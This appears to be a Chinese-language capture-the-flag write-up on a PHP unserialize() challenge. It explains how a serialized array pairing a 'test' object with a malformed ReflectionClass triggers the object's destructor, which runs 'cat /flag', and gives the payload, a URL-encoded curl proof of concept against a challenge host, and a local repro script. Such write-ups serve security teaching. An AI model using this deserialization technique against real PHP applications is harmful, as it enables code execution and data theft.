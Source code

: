# 题目复现

给出的源码（核心逻辑）：

```
highlight_file(__FILE__);
// ……（中文注释无关）
class test {
    function __destruct() {
        echo 'success!!';
        system("cat /flag");
    }
}
if (isset($_REQUEST['input'])) {
    $a = unserialize($_REQUEST['input']);
    throw new Exception('lose');
}
```

访问示例：`http://101.43.200.131:32871/?input=...`

# 漏洞点与利用思路

- 目标：想办法**触发 ******`**test::__destruct()**`，这样就会 `cat /flag`。
    
- 难点：`unserialize()` 后**立即** `throw new Exception('lose')`，未捕获异常通常会直接终止脚本，使得我们**来不及**看到析构输出。
    
- 关键突破：让**`unserialize()` 自己在解析过程中就抛异常**，这样：
    
    1. 让它**先**成功构造一个 `test` 对象（可放在数组第 0 个元素）；
        
    2. 解析数组第 1 个元素时**抛异常**，`unserialize()` 被打断；
        
    3. 栈回退/清理本地变量时，第 0 个 `test` 对象**引用计数归零** ➜ 触发 `__destruct()` ➜ 打印 flag；
        
    4. 由于异常已在 `unserialize()` 内部抛出，代码中的 `throw new Exception('lose')` 根本执行不到。
        

# 成功利用的 Payload

利用 `ReflectionClass` 在反序列化时的严格校验：它期望属性 `name` 为**字符串合法类名**；我们喂一个**错误类型**（如整型），在恢复阶段会抛异常并中断 `unserialize()`。

原始 payload（未编码）：

```
a:2:{i:0;O:4:"test":0:{}i:1;O:16:"ReflectionClass":1:{s:4:"name";i:1;}}
```

说明：

- `a:2:{ ... }` 是一个长度为 2 的数组；
    
- `i:0;O:4:"test":0:{}`：第 0 个元素是 `test` 对象（无属性），**先被成功构造**；
    
- `i:1;O:16:"ReflectionClass":1:{s:4:"name";i:1;}`：第 1 个元素是 `ReflectionClass`，其 `name` 字段被我们填成整型 `1`，在反序列化校验时抛异常；
    

URL 编码后 PoC（直接打）：

```
curl 'http://101.43.200.131:32871/?input=a%3A2%3A%7Bi%3A0%3BO%3A4%3A%22test%22%3A0%3A%7B%7Di%3A1%3BO%3A16%3A%22ReflectionClass%22%3A1%3A%7Bs%3A4%3A%22name%22%3Bi%3A1%3B%7D%7D'
```

**成功现象**：返回体里出现

```
success!!
<flag内容>
```

# 触发时序（为什么会析构）

简化调用链（逻辑）：

1. 进入 `if (isset($_REQUEST['input']))`；
    
2. 执行 `$a = unserialize($_REQUEST['input']);`
    
    - 先构造数组第 0 个元素的 `test` 对象（RC=1，绑定在 `$a[0]` 的临时结构里）；
        
    - 处理第 1 个元素 `ReflectionClass` 时因非法 `name` 抛异常；
        
3. 异常导致 `unserialize()` 失败并**回退栈帧**，临时结构被销毁，`test` 对象**失去所有引用**；
    
4. 引用计数归零 ➜ PHP 垃圾回收调用 `test::__destruct()`，打印 `success!!` 和 `/flag`；
    
5. 接着异常继续向上冒泡（若未捕获会显示 Fatal），但**flag 已经打印**。
    

> 注：在多数 PHP 版本中，`unserialize()` 阶段的异常清理会触发已构造对象的析构；而“先 unserialize 后手动 `throw`”在某些环境下可能**不触发析构**，这是之前你碰到只见 Fatal 的原因。

# 失败与对比

- 单对象：`O:4:"test":0:{}` ➜ 不能，因为后面紧接着的 `throw new Exception('lose')` 可能导致无输出。
    
- “先 test 后 Exception 对象”（方案 A）：`Exception` 本身的反序列化行为在不同版本上差异较大，有时不会抛、只是致命/告警，不稳定。
    
- `ReflectionClass` 的好处是**校验严格且稳定**，给错类型基本必抛，这就是方案 B 命中的原因。
    

# 本地复现脚本（可选）

```
<?php
class test {
    function __destruct() {
        echo "success!!\n";
        // system("cat /flag");
    }
}

$payload = 'a:2:{i:0;O:4:"test":0:{}i:1;O:16:"ReflectionClass":1:{s:4:"name";i:1;}}';
try {
    $a = unserialize($payload);
    throw new Exception('lose');  // 实际上执行不到
} catch (Throwable $e) {
    // 在真实题目里没 try/catch，这里只是为了看顺序
    // 你会在这里之前就看到 "success!!"
}
```

